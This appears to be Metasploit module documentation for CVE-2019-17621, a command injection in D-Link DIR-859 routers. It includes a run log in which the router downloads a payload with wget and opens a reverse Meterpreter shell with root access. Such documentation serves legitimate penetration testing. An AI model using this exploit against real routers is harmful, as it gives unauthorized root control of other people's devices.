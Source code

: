 ## Introduction

This module exploits CVE.2019-17621, a remote unauthenticated OS command injection in the UPnP API of the DIR-859 and other D-link SOHO routers via the `service` argument to the `gena.cgi` URL.

## Setup

Get a D-Link DIR-859 router (or [any of the devices/firmware versions mentioned here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)), or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Scenarios

```
msf5 exploit(linux/http/dlink_dir859_exec_telnet) > run 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://192.168.0.2:8080/r2hOQycyVvN2BP
[*] Client 192.168.0.1 (Wget) requested /r2hOQycyVvN2BP
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Meterpreter session 7 opened (192.168.0.2:4444 -> 192.168.0.1:54599) at 2020-01-10 11:36:52 -0300
[*] Server stopped.

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo 
Computer     : 192.168.0.1
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter >
```

